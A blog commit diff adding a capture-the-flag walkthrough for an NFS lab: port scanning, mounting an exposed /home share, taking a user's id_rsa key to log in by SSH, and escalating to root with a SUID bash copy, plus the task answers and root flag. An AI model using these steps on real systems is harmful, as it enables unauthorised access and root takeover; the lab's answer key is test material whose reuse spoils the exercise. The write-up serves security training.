

Before and after one commit to BarryCui/barrycui.github.io, a Jekyll site: the page built from _posts/2022-06-14-network-services2.md, in a window 1280 px wide. Shown: the top 1920 px of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add tasks

````diff
--- a/_posts/2022-06-14-network-services2.md
+++ b/_posts/2022-06-14-network-services2.md
@@ -44,3 +44,108 @@ controlling user permissions? Format: parameter 1 / parameter 2**
 **What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.**
 
 > 4.2
+
+Task 3
+
+**Conduct a thorough port scan scan of your choosing, how many ports are open?**
+
+In practice, when you use nmap to scan a huge range of ports, it can take really a long time. So instead of setting up a huge port range, we can divide it into several ranges to make the scanning time short.
+
+```
+nmap -A -p1-10000 10.10.186.1
+nmap -A -p10001-20000 10.10.186.1
+nmap -A -p20001-30000 10.10.186.1
+nmap -A -p30001-40000 10.10.186.1
+nmap -A -p40001-50000 10.10.186.1
+```
+
+> 7
+
+**Which port contains the service we're looking to enumerate?**
+
+> 2049
+
+**Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?**
+
+```
+showmount -e 10.10.186.1
+```
+
+> /home
+
+**Change directory to where you mounted the share- what is the name of the folder inside?**
+
+```
+mkdir /tmp/mount
+mount -t nfs 10.10.186.1:/home /tmp/mount/ -nolock
+cd /tmp/mount/
+ls
+```
+
+> cappucino
+
+**Which of these folders could contain keys that would give us remote access to the server?**
+
+> .ssh
+
+**Which of these keys is most useful to us?**
+
+> id_rsa
+
+**Can we log into the machine using *ssh -i <key-file> <username>@<ip>* ? (Y/N)**
+
+```
+cp id_rsa ~
+cd ~
+chmod 600 id_rsa
+ssh -i id_rsa cappucino@10.10.186.1
+```
+
+> Y
+
+### Task 4
+
+**Now, we're going to add the SUID bit permission to the bash executable
+we just copied to the share using "sudo chmod +[permission] bash". What
+letter do we use to set the SUID bit set using chmod?**
+
+```
+chmod +s bash
+```
+
+> s
+
+**Let's do a sanity check, let's check the
+ permissions of the "bash" executable using "ls -la bash". What does the
+ permission set look like? Make sure that it ends with -sr-x.**
+
+```
+chmod +x bash
+ls -la bash
+```
+
+> rwsr-sr-x
+
+**Now, SSH into the machine as the
+user. List the directory to make sure the bash executable is there. Now,
+ the moment of truth. Lets run it with "*./bash -p*". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.**
+
+```
+ssh -i id_rsa cappucino@10.10.186.1
+./bash -p
+```
+
+Now we have entered into a root shell.
+
+> No answer needed
+
+**Great! If all's gone well you should have a shell as root! What's the root flag?**
+
+Change to root home directory, then you can find a text file containing the flag.
+
+```
+cd /root
+cat root.txt
+```
+
+> THM{nfs_got_pwned}
````
